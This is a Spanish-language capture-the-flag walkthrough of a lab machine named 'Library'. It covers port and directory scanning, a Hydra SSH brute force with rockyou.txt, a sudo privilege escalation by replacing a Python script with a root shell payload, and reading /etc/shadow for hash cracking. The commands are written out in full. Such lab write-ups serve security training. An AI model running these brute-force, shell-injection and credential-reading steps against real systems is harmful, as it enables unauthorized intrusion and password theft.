

# Máquina LIBRARY

# Fase 1: Reconocimiento y Enumeración

### **1. Escaneo de Puertos (Nmap)**

- **Comando**

```bash
sudo nmap -p- --open -sS -Pn -sV -sC --min-rate 5000 10.81.161.0<br>
```



Una vez hecho el escaneo accedemos al servicio web (puerto 80) para realizar OSINT.

### 2. Enumeración de Directorios (Gobuster)

Se realiza un ataque de diccionario sobre la estructura de directorios del servidor web para localizar recursos no enlazados públicamente.

**Comando:**

```bash
gobuster dir -u http://10.81.161.0 -w /usr/share/wordlists/dirb/common.txt -x php,tx
```


Abrir en el navegador `http://[IP-Victima]/robots.txt`

### 3. Análisis del archivo Robots.txt

Se inspecciona el archivo `/robots.txt` para obtener pistas sobre la configuración del servidor.

- **Hallazgo:** El archivo muestra la cadena `User-agent: rockyou`


- Esto sugiere el uso de diccionarios de contraseñas estandar rockyou.txt.

### 4. Identificación del Vector de Ataque Final

Tras analizar el servicio web, se consolidan las pistas obtenidas para definir la estrategia de intrusión:

1. **Nombre de Usuario:** En la página principal del blog (`index.html`), se identifica a **`meliodas`** como el autor y administrador del sitio.


## Fase 2: Acceso Inicial (Explotación)

Con la información recolectada, se inicia el proceso de obtención de credenciales para acceder al servidor.

### 1. Ataque de Fuerza Bruta (Hydra)

Se utiliza la herramienta **Hydra** para automatizar el intento de inicio de sesión múltiple sobre el protocolo SSH.

- **Comando:**Bash
    
    ```bash
    hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.81.161.0
    ```
    

(En caso de que venga el archivo de rockyou.txt sin descomrpimir, se hace con el siguiente comando)

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

### 2. Lanzar Hydra

Bash

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.81.161.0 -t 4
```


Obtenemos el usuario (meliodas) y la contraseña (iloveyou1)

### 3. Conexión Inicial

Con las credenciales obtenidas, se procede a establecer una sesión SSH para interactuar con el sistema operativo.

Con las credenciales obtenidas, se procede a establecer una sesión SSH para interactuar con el sistema operativo.

- **Comando de acceso:**Bash
    
    `ssh meliodas@10.81.161.0`
    


### Fase 3: Post-Explotación y Escalada de Privilegios (Root)

### 1. Enumeración de privilegios SUDO

El primer paso en cualquier auditoría interna es revisar qué comandos puede ejecutar el usuario actual con permisos de superusuario sin conocer la contraseña de root.

- **Comando:**Bash
    
    `sudo -l`
    
- **Hallazgo:** El usuario puede ejecutar el intérprete de **Python** sobre el script `/home/meliodas/bak.py` con privilegios de superusuario y sin proporcionar contraseña.


Eliminación del Script Protegido

Aunque el archivo `bak.py` está protegido contra escritura, al residir en la carpeta `/home/meliodas/` (sobre la cual tenemos control total), es posible eliminarlo.

- **Comando:**Bash
    
    `rm /home/meliodas/bak.py`
    

### Creación del Script Malicioso

Se genera un nuevo archivo con el mismo nombre, inyectando código en Python diseñado para invocar una shell del sistema.

- **Comando:**Bash
    
    `echo 'import os; os.system("/bin/bash")' > /home/meliodas/bak.py`
    

### Ejecución y Elevación a Root

Se aprovecha el privilegio de `sudo` identificado anteriormente para ejecutar el nuevo script. Al ser ejecutado por el intérprete de Python con permisos de superusuario, el código inyectado nos devuelve una shell con privilegios máximos.

- **Comando:**Bash
    
    `sudo /usr/bin/python3 /home/meliodas/bak.py`
    

### Confirmación de Superusuario

Se verifica la identidad del usuario tras la ejecución.

- **Comando:** `whoami`
- **Resultado:** `root`


### Extracción de Secretos del Sistema (Hashes)

Como usuario root, se accede al archivo `/etc/shadow`, el cual es inaccesible para usuarios normales. Este archivo almacena los hashes de las contraseñas de todos los usuarios del sistema.

- **Comando ejecutado:**Bash
    
    `cat /etc/shadow | grep -E "root|meliodas"`
    


Para hacer el crackeo y obtener las contraseñas usaremos jon the ripper en ambas, aunque no consigamos las contraseñas podemos cambiarlas al ser super usuario.

Root


User: meliodas contraseña: iloveyou1


